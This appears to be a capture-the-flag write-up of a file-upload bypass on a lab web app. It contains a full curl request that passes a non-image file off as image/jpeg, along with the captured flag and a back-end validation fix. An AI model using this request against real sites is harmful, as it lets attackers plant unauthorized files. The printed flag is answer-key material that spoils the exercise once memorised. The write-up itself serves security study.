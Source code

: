 # Upload Bypass

### Breach Description:

The file upload file improperly checks the format of files that are uploaded, relying on the indicated content type, allowing us to upload any type of file, as long as we manually specify a “image/jpeg” Content type.

### Explanation of the breach:

When playing around with the file upload we quickly notice that the file upload field will only accept .jpg files. This is unfortunate as we would like to upload other files, like super_hacking_script.html and prom_video.mp4.

So the first thing we can try is to lie, and simply change the extension of our files to jpg.

This “works” but gets us no flags, and is not quite good enough for us, as we would like not to break our files.

The “MAX_FILE_SIZE” is also set in the front end, which is odd, but does not seem to be what can trigger the flag.

However, exporting the request and modifying it to keep the content type, but change the file with curl gives us:

```jsx
curl 'http://192.168.64.4/?page=upload' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8' \
-H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymFT7BcI67jE7pfyE' \
-H 'Referer: http://192.168.64.4/?page=upload' \
--data-raw $'------WebKitFormBoundarymFT7BcI67jE7pfyE\r\nContent-Disposition: form-data; name="MAX_FILE_SIZE"\r\n\r\n100000\r\n------WebKitFormBoundarymFT7BcI67jE7pfyE\r\nContent-Disposition: form-data; name="uploaded"; filename=test.sumshit"\r\nContent-Type: image/jpeg\r\n\r\n\r\n------WebKitFormBoundarymFT7BcI67jE7pfyE\r\nContent-Disposition: form-data; name="Upload"\r\n\r\nUpload\r\n------WebKitFormBoundarymFT7BcI67jE7pfyE--\r\n' \
--compressed \
--insecure
```

Which will helpfully get us the following flag:

46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8

### Breach Fix:

Validating the file type in the back end and not relying on information from the front end is the minimum where security is concerned. All information coming from the front end can be intercepted, modified, and its integrity cannot be ensured.
